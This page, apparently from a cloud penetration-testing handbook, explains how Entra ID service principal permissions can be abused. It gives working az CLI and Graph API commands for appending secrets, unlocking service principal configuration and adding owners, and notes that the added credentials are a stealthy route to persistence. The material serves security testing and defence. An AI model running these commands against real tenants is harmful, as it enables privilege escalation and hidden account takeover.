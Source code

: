 ## Service Principals

### `microsoft.directory/servicePrincipals/credentials/update`

This allows an attacker to add credentials to existing service principals. If the service principal has elevated privileges, the attacker can assume those privileges.

```bash
az ad sp credential reset --id <sp-id> --append
```

{% hint style="danger" %}
The new generated password won't appear in the web console, so this could be a stealth way to maintain persistence over a service principal.\
From the API they can be found with: `az ad sp list --query '[?length(keyCredentials) > 0 || length(passwordCredentials) > 0].[displayName, appId, keyCredentials, passwordCredentials]' -o json`
{% endhint %}

If you get the error `"code":"CannotUpdateLockedServicePrincipalProperty","message":"Property passwordCredentials is invalid."` it's because **it's not possible to modify the passwordCredentials property** of the SP and first you need to unlock it. For it you need a permission (`microsoft.directory/applications/allProperties/update`) that allows you to execute:

{% code overflow="wrap" %}
```bash
az rest --method PATCH --url https://graph.microsoft.com/v1.0/applications/<sp-object-id> --body '{"servicePrincipalLockConfiguration": null}'
```
{% endcode %}

### `microsoft.directory/servicePrincipals/synchronizationCredentials/manage`

This allows an attacker to add credentials to existing service principals. If the service principal has elevated privileges, the attacker can assume those privileges.

```bash
az ad sp credential reset --id <sp-id> --append
```

### `microsoft.directory/servicePrincipals/owners/update`

Similar to applications, this permission allows to add more owners to a service principal. Owning a service principal allows control over its credentials and permissions.

```bash
# Add new owner
spId="<spId>"
userId="<userId>"
az rest --method POST \
  --uri "https://graph.microsoft.com/v1.0/servicePrincipals/$spId/owners/\$ref" \
  --headers "Content-Type=application/json" \
  --body "{
    \"@odata.id\": \"https://graph.microsoft.com/v1.0/directoryObjects/$userId\"
  }"

az ad sp credential reset --id <sp-id> --append

# You can check the owners with
az ad sp owner list --id <spId>
```

